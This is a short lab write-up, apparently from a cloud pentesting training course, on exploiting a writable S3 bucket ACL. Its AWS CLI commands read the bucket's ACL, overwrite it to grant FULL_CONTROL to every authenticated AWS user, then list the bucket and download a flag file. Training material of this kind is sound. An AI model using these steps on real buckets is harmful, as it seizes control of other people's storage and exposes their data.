 # Writable Bucket ACL

Check S3 buckets. `aws s3api list-buckets --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/227665803-150110cf-9061-4398-a302-72944e5d383e.png)

Check objects present in S3 bucket. `aws s3api list-objects --bucket s3-secret-760068929587 --profile PTAcademyJllerena`

It will give an access denied message. Check the policy `aws s3api get-bucket-acl --bucket s3-secret-760068929587 --profile PTAcademyJllerena | jq`
![image](https://user-images.githubusercontent.com/46797181/227667633-957e2628-5311-412f-a97b-284c84b641a2.png)

Copy the output from last command and paste it in a JSON file, then modify it.

```
{
  "Owner": {
    "DisplayName": "awsplayground+1663605382685",
    "ID": "4045e95188a8f77d489fc506c0ae091385cf94c887352feac51f296ef5b3874d"
  },
  "Grants": [
    {
      "Grantee": {
        "Type": "Group",
        "URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
      },
      "Permission": "FULL_CONTROL"
    }
  ]
}
```

Update the new ACL for the bucket and try listing the bucket objects.

Listing is possible, now copy the flag file and display it

```
aws s3api put-bucket-acl --bucket s3-secret-760068929587 --access-control-policy file://policy.json --profile PTAcademyJllerena
aws s3api list-objects --bucket s3-secret-760068929587 --profile PTAcademyJllerena
aws s3 cp s3://s3-secret-760068929587/secret-flag ./ --profile PTAcademyJllerena
cat secret-flag
```
![image](https://user-images.githubusercontent.com/46797181/227668361-84258dc6-4255-4a29-bc4e-b8e23d95325e.png)

EXERCISE COMPLETED !! 





















